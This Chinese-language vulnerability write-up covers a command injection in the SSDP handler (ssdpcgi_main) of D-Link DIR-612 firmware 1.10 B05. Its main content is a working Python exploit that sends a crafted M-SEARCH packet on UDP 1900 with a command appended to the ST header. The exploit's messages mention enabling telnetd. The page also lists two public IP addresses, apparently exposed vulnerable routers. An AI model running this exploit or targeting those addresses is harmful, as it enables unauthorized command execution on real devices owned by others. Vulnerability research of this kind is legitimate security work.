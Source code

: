 # DIR-612

**产品型号**: D-Link DIR-612（硬件版本A1）

**固件版本**: 1.10 B05

**厂家官网**: http://www.dlink.com.cn/

**固件地址**: http://support.dlink.com.cn:9000/ProductInfo.aspx?m=DIR-629

![image-20210317223351729](https://gitee.com/mrskye/Picbed/raw/master/img/20210317223358.png)

## 漏洞信息

漏洞二进制文件：`/htdocs/cgibin`

漏洞函数：`ssdpcgi_main` 

命令注入：

![image-20210317223754651](https://gitee.com/mrskye/Picbed/raw/master/img/20210317223754.png)

## EXP

这个接口是 socket 服务，不能通过 web 访问

```python
import sys
import os
import socket
from time import sleep

def config_payload(ip, port):
    header = "M-SEARCH * HTTP/1.1\n"
    header += "HOST:"+str(ip)+":"+str(port)+"\n"
    header += "ST:urn:device:1;poweroff\n"
    header += "MX:2\n"
    header += 'MAN:"ssdp:discover"'+"\n\n"
    return header
def send_conexion(ip, port, payload):
    sock=socket.socket(socket.AF_INET,socket.SOCK_DGRAM,socket.IPPROTO_UDP)
    sock.setsockopt(socket.IPPROTO_IP,socket.IP_MULTICAST_TTL,2)
    sock.sendto(payload,(ip, port))
    sock.close()
if __name__== "__main__":
    ip = raw_input("Router IP: ")
    port = 1900
    print("\n---= HEADER =---\n")
    headers = config_payload(ip, port)
    print("[+] Preparando Header ...")
    print("[+] Enviando payload ...")
    print("[+] Activando servicio telnetd :)") 
    send_conexion(ip, port, headers)
    print("[+] Conectando al servicio ...\n")
    # sleep(5)
    # os.system('telnet ' + str(ip))
```

> 公网机器：
>
> http://122.225.206.91:8333/
>
> http://112.118.247.147:8080/

## 参考资料

https://medium.com/@s1kr10s/d-link-dir-859-unauthenticated-rce-in-ssdpcgi-http-st-cve-2019-20215-en-2e799acb8a73

https://xz.aliyun.com/t/5468#toc-2

https://www.anquanke.com/post/id/94289